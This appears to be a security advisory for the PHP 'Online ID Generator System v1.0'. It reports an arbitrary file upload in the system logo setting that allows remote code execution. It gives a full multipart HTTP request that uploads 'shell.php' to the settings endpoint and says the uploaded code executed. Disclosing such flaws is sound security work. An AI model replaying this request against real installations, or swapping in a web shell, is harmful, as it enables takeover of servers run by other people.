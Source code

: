 # Online ID Generator System v1.0 by oretnom23 has arbitrary code execution (RCE)

Author : WuQi Qi and Zhihong Tian, Guangzhou University

vendor: https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

Vulnerability url: http://ip/id_generator/classes/SystemSettings.php?f=update_settings

Loophole location： There is an arbitrary file upload vulnerability (RCE) in the system logo upload point in the system information.

Request package for file upload：

```sql
POST /id_generator/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/id_generator/admin/?page=system_info
Content-Length: 451
Content-Type: multipart/form-data; boundary=---------------------------14440193412005
Cookie: PHPSESSID=ci1977vfr3bv4dcogigd9kogg6
Connection: close

-----------------------------14440193412005
Content-Disposition: form-data; name="name"

Online ID Generator System - PHP
-----------------------------14440193412005
Content-Disposition: form-data; name="short_name"

OIGS
-----------------------------14440193412005
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfoI();?>
-----------------------------14440193412005--

```

The files will be uploaded to this directory \id_generator\uploads
![image](https://github.com/assets/54017627/0379b03a-6d49-4556-b8f4-d42e1e7d0fb1)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://github.com/assets/54017627/ea5fe59b-d99d-4967-944d-17afb9a64719)



